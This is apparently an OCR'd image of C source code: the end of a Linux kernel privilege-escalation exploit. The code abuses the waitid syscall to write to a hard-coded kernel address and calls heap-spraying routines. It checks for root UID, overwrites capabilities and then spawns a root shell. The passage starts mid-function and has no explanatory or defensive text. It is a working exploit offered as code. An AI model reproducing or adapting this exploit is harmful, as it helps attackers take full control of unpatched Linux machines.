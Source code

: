 ```clike
  while (1) {
    
    if (*glob_var==1) {
      syscall(SYS_exit, 0);
    }
    if (getuid() == 0){
        //FOUND!!
    printf("[+] Got UID: 0 !\n");
     *glob_var = 1;
     writecaps((char *)finalcapsaddress,value);
    printf("Done, spawning a shell \n");
    execve("/bin/sh", argv, NULL);
    }
}
    }

    else if(pid<0)
    {
        printf("failed to fork");
    }

    else // parent process
    {

    }
}
}

void swapuid(){

    char* i,p;
    while(*glob_var!=1)
    {
    for(i = (char *)0xffff8800321b4004; ; i+=0xc0)
        {
        if(*glob_var==1)
            {
            break;
            }
        printf("trying %p\n",i);
        syscall(__NR_waitid, P_PID, 0,(siginfo_t *)i, WEXITED, NULL);
        sleep(1);
        }
    }
munmap(glob_var, sizeof *glob_var);
printf("Found uid on %p\n",i-0xc0);
sleep(10000);
}

int main(void)
{
    glob_var = mmap(NULL, sizeof *glob_var, PROT_READ | PROT_WRITE,
                    MAP_SHARED | MAP_ANONYMOUS, -1, 0);

    *glob_var = 0;

unsigned long* base = findbase();
    findheapbase();
    spraynpray();
    swapuid();
}
    
```